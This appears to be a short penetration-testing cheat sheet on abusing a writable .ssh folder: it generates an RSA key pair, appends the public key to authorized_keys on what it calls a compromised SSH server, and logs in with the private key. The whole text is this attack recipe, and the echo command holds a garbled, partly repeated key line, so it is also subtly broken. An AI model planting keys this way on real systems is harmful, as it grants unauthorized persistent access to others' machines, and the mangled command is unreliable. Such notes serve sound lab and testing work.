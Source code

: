 # Writable .ssh folder

## add your public keys and connect to host via ssh
### generate keys
```ssh-keygen -t rsa -b 1024 -f testkeys```

### add keys to compromised ssh server
#### copy
```cat testkeys.pub | xclip -selection c```

#### paste
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDAN9xF6yh8o58+XaXtig86wCBgAh304mw1WSl4xTMo6s8G7I4q2ghXpHh4VpggPbi7+Q2VfbQuBWQeb4sKHTOh6qvXjgpFdqVwbgHrstxVvVC7ZoRSex+qDRumb2TmhRhNb1IiVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali
<iVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali" >> authorized_keys
```

### connect to host
```ssh -i testkeys user@host```
